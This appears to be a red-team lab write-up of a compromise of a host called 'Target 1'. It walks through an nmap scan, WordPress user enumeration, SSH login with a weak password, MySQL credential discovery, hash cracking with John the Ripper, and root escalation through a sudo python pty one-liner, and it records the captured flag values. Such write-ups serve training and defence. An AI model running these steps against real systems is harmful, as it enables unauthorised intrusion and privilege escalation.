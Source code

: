 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
``` bash
$ nmap -sV -O 192.168.1.110

Nmap scan report for 192.168.1.110
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 (Debian)
111/tcp open  rpcbind     2-4 (RPC 100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH
  - Apache Web Server
  - rpcbind
  - SMB

The following vulnerabilities were identified on each target:
- Target 1
  - Network response to ping requests
  - Weak password for Michael
  - Python sudo privilege access for user Steven

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
- `flag1.txt`: `flag1{b9bbcb33e11b80be759c4e844862482d}`
  - **Exploit Used**
    - View source on `http://192.168.1.110/service.html`
    - ![](images/flag01.png)


- `flag2.txt`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - `wpscan --url http://192.168.1.110/wordpress -enumerate u` revealed users Michael and Steven.
    - `ssh michael@192.168.1.110` password `michael` (weak password)

    - ![](images/flag02.png)


- `flag3.txt`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
  - **Exploit Used**
    - ![](images/mysql-password.png)

    - After finding the MySQL DB username and password, I was able to log in and find flag03 and a password hash for Steven
    - ![](images/flag03.png)  
    - I used JohnTheRipper to crack the password hash for Steven
    - ![](images/steven-password.png)


- `flag4.txt`: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - **Exploit Used**
    - Steven had root privileges for python so I was able to get root access with the following code. ```sudo python -c 'import pty; pty.spawn("bin/bash")' ```

    - ![](images/flag04.png)

